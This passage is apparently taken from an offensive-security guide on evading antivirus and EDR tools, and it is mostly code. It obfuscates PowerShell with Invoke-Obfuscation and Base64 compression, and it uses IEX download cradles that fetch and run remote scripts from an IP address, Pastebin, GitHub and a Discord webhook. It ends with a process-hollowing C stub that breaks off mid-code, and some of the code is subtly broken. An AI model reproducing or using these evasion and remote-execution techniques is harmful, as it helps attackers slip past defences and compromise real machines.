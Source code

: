 ### **Antivirus and EDR Evasion**

**What AV/EDR evasion involves:** Techniques to bypass signature-based detection, behavioral analysis, and endpoint detection and response systems.

**Why evasion is critical:** Modern security tools detect most standard payloads. Evasion techniques are essential for successful payload delivery in defended environments.

```bash
# Payload obfuscation techniques
# PowerShell obfuscation using Invoke-Obfuscation
# Download and use Invoke-Obfuscation framework
Import-Module .\Invoke-Obfuscation.psd1
Invoke-Obfuscation

# Within Invoke-Obfuscation:
# SET SCRIPTPATH C:\path\to\payload.ps1
# TOKEN\ALL\1    # Obfuscate all tokens
# OUT C:\path\to\obfuscated.ps1

# Manual PowerShell obfuscation
# Base64 encoding with compression
$originalPayload = 'IEX(New-Object Net.WebClient).downloadString("http://192.168.1.5/shell.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($originalPayload)
$compressed = [System.IO.Compression.GZipStream]::new([System.IO.MemoryStream]$bytes, [System.IO.Compression.CompressionMode]::Compress)
$encodedPayload = [Convert]::ToBase64String($compressed.ToArray())

# Variable name randomization
$randomVar1 = Get-Random
$randomVar2 = Get-Random
$payload = "`$randomVar1 = [System.Convert]::FromBase64String('$encodedPayload'); IEX([System.Text.Encoding]::Unicode.GetString(`$randomVar1))"

# Payload delivery through legitimate services
# Pastebin delivery
$pastebinUrl = "https://pastebin.com/raw/abcd1234"
powershell -c "IEX(New-Object Net.WebClient).downloadString('$pastebinUrl')"

# GitHub delivery
$githubUrl = "https://raw.githubusercontent.com/user/repo/main/payload.ps1"
powershell -c "IEX(New-Object Net.WebClient).downloadString('$githubUrl')"

# Discord webhook delivery
$discordWebhook = "https://discord.com/api/webhooks/123456789/abcdef"
# Upload payload as file attachment, then download

# Process hollowing technique (advanced)
cat > process_hollow.c << 'EOF'
#include <windows.h>
#include <stdio.h>

int main() {
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    
    // Create suspended process
    CreateProcess(NULL, "svchost.exe", NULL, NULL, FALSE, 
                 CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    
    // Hollow out process memory and inject payload
    // (Detailed implementation would be much longer)
    
    // Resume execution with injected payload
```
